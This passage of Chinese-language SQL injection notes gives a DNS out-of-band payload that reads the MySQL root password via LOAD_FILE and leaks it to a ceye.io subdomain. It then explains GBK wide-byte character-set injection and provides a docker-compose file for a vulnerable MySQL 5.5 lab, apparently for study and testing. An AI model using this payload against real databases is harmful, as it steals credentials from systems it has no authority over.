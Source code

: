 ![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202022158588.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202022155693.png)

[官方payload](http://ceye.io/payloads)

`SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.b182oj.ceye.io\\abc'));`

## 字符集漏洞

[Mysql-字符集漏洞分析](https://lalajun.github.io/2018/05/11/mysql-%E5%AD%97%E7%AC%A6%E9%9B%86%E6%BC%8F%E6%B4%9E/)

在php中,常用以下语句来设置php客户端在Mysql中的字符集`set names utf8`

这个语句会修改如下几项客户端设置

```
character_set_client=utf8
character_set_connection=utf8
character_set_results=utf8
```

然而如下服务端设置不会修改

```
character_set_database
character_set_server
character_set_filesysytem
character_set_system
```

这样就造成了服务端与客户端的字符集不匹配,从而造成字符集转换漏洞

当我们的mysql接受到客户端的数据后,会认为他的编码是`character_set_client`,然后会将之将换成`character_set_connection`的编码

进入具体表和字段后,再转换成字段对应的编码,当查询结果产生后,会从表和字段的编码,转换成`character_set_results`编码,返回给客户端

### GBK编码注入

php编码为`UTF-8`而mysql编码为`gbk`,在php向mysql传递数据时会产生编码转换从而导致注入

通过`set names 'gbk';`将mysql编码设置成`gbk`

```
version: '3.8'
services:
  mysql44:
    image: mysql:5.5.44
    container_name: mysql-44
    ports:
      - "4400:3306"
    environment:
      MYSQL_ROOT_PASSWORD: root
    command: --character-set-server=gbk --collation-server=gbk_bin
```
